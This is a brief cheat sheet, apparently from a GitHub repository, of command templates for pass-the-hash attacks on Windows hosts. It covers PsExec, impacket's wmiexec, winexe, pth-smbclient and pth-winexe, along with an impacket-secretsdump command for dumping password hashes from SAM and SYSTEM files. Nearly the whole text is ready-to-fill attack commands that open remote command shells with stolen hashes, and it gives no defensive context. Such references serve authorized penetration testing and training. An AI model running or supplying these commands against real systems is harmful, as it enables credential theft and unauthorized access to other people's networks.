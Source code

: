 # pass the hash (psexec.exe)

```
.\PsExec.exe -accepteula -u <administrator/user> -p <lmhash>:<ntlmhash> cmd.exe
```

# pass the hash (wmiexec)

```
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes <lmhash>:<ntlmhash> <user>@<rhost> cmd.exe
```

# pass the hash (winexe)

```
winexe -U '<administrator/user>%<lmhash>:<ntlmhash>' //<rhost> cmd.exe
```

# pass the hash (smb; pth-smbclient)

```
pth-smbclient //<rhost>/<share(c$)> -U <PCNAME>/<user>%<lmhash>:<ntlmhash>
```

# pass the hash (pth-winexe)

```
pth-winexe -U <Administrator/user>%<lmhash>:<ntlmhash> //<rhost> cmd.exe
```

# get hashes from sam

```
impacket-secretsdump -sam sam -system system LOCAL
```
